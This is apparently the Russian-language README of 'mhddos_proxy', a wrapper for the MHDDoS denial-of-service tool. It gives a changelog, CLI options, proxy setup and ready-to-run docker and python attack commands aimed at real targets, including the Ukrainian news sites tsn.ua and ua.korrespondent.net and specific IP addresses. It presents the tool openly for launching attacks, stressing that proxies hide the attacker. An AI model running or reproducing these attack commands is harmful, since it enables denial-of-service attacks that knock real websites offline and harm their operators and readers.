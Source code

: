 Скрипт-обертка для запуска мощного DDoS инструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

- **Не требует VPN** - скачивает и подбирает рабочие прокси для атаки (доступный режим `--vpn` по желанию)
- Атака **нескольких целей** с автоматической балансировкой нагрузки
- Использует **различные методы для атаки**

### ⏱ Последние обновления

- **23.04.2022** 
  - Изменен флажок `--vpn` - теперь ваш IP/VPN используется **вместе** с прокси, а не вместо. Чтобы достичь предыдущего поведения, используйте `--vpn 100`
- **20.04.2022**
  - Значительно улучшено использование ресурсов системы для эффективной атаки
  - Добавлен параметр `--udp-threads` для контроля мощности UDP атак (по умолчанию 1)

<details>
  <summary>📜 Раньше</summary>

- **18.04.2022** 
  - В режиме `--debug` добавлена ​​статистика "всего" по всем целям
  - Добавлено больше прокси
- **13.04.2022** 
  - Добавлена ​​возможность отключать цели и добавлять комментарии в файле конфигурации - теперь начинающиеся строки на символ # игнорируются
  - Исправлена ​​проблема полного зависания скрипта после длительной работы и другие ошибки при смене цикла
  - Исправлено отображение цветов на Windows (без редактирования реестра)
  - Теперь в случае недоступности всех целей скрипт будет ожидать вместо полной остановки
- **09.04.2022** Новая система прокси – теперь каждый получает ~200 прокси для атаки из общего пула более 10.000. Параметры `-p` (`--period`) и `--proxy-timeout` больше не используются
- **04.04.2022** Добавлена ​​возможность использования собственного списка прокси для атаки - [инструкция](#собственные-прокси)
- **03.04.2022** Исправлена ​​ошибка Too many open files (спасибо, @kobzar-darmogray и @euclid-catoptrics)
- **02.04.2022** Рабочие потоки больше не перезапускаются на каждый цикл, а используются повторно. Также исправлена ​​работа Ctrl-C
- **01.04.2022** Обновлен метод CFB в соответствии с MHDDoS.
- **31.03.2022** Добавлены надежные DNS серверы для резолвинга цели вместо системных. (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Добавлена ​​поддержка локального файла конфигурации (очень спасибо @kobzar-darmogray).
- **28.03.2022** Добавлен табличный вывод `--table` (очень спасибо, @alexneo2003).
- **27.03.2022**
    - Разрешен запуск методов DBG, BOMB (спасибо @drew-kun за PR) и KILLER для соответствия оригинальному MHDDoS.
- **26.03.2022**
    - Запуск всех выбранных атак вместо случайного выбора
    - Уменьшено использование RAM на большом количестве целей – теперь на RAM влияет только параметр `-t`
    - Добавлено кэширование DNS и корректная обработка проблем с резолвингом
- **25.03.2022** Добавлен режим VPN вместо прокси (флажок `--vpn`)
- **25.03.2022** MHDDoS включен в состав репозитория для большего контроля над разработкой и защитой от неожиданных
  изменений
</details>

### 💽 Установка | Installation - [инструкции ЗДЕСЬ](/docs/installation.md)

### 🕹 Запуск | Running (приведены разные варианты целей)

#### Docker

    docker run -it --rm --pull always ghcr.io/Bionec/mhddos_p https://tsn.ua 5.177.56.124:80 tcp://194.62.14.124:4477

#### Python (если не работает – просто python вместо python3)

    python3 runner.py https://tsn.ua 5.177.56.124:80 tcp://194.62.14.124:4477

### 🛠 Настройки (больше в разделе [CLI](#cli))

**Все параметры можно комбинировать**, можно указывать и до и после перечня целей

Изменить нагрузку – `-t XXXX` – количество потоков, по умолчанию – CPU*1000

    docker run -it --rm --pull always ghcr.io/Bionec/mhddos_p -t 3000 https://tsn.ua https://ua.korrespondent.net

Чтобы просмотреть информацию о ходе атаки, добавьте флажок `--table` для таблицы, `--debug` для текста

    docker run -it --rm --pull always ghcr.io/Bionec/mhddos_p --table https://tsn.ua https://ua.korrespondent.net

### 🐳 Комьюнити
- [Подробный разбор MHDDoS_proxy](https://github.com/Bionec/DDoS-for-all_p/blob/main/MHDDoS_proxy.md)
- [Utility для преобразования общих целей в формат конфигурации](https://github.com/kobzar-darmogray/mhddos_proxy_utils)
- [Анализ средства mhddos_proxy](https://github.com/Bionec/mhddos_p_docs/blob/main/docs/README_analiz_sredstva_mhddos_h.md#%D0%B0%D0%BD%D0%B0%D0%BB%D0%B8%D0%B7-%D1%81%D1%80%D0%B5%D0%B4%D1%81%D1%82%D0%B2%D0%B0-mhddos_proxy)
- [Пример запуска через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with attack targets
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Use both my IP and proxies for the attack. Optionally, specify a percent of using my IP (default is 10%)
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path to file with proxies to use
      --udp-threads 1        Total number of threads to run for UDP sockets (defaults to 1)
      --http-methods GET     List of HTTP(s) attack methods to use (default is GET + POST|STRESS).
                             Refer to MHDDoS docs for available options (https://github.com/MHProDev/MHDDoS)

### Собственные прокси

#### Формат файла:

    114.231.123.38:1234
    username:password@114.231.123.38:3065
    socks5://114.231.155.38:5678
    socks4://username:password@114.231.123.38:3065

#### Удаленный файл (равно для Python и Docker)

    python3 runner.py --proxies https://pastebin.com/raw/UkFWzLOt https://tsn.ua

#### Для Python

Положите файл рядом с `runner.py` и добавьте в команду следующий флажок (замените `proxies.txt` на имя файла)

    python3 runner.py --proxies proxies.txt https://tsn.ua

#### Для Docker
Нужно монтировать volume, чтобы Docker имел доступ к файлу.
Обязательно указывать абсолютный путь к файлу и не потерять `/` перед именем файла

    docker run -it --rm --pull always -v /home/user/ddos/mhddos_p/proxies.txt:/proxies.txt ghcr.io/Bionec/mhddos_p --proxies /proxies.txt https://tsn.ua
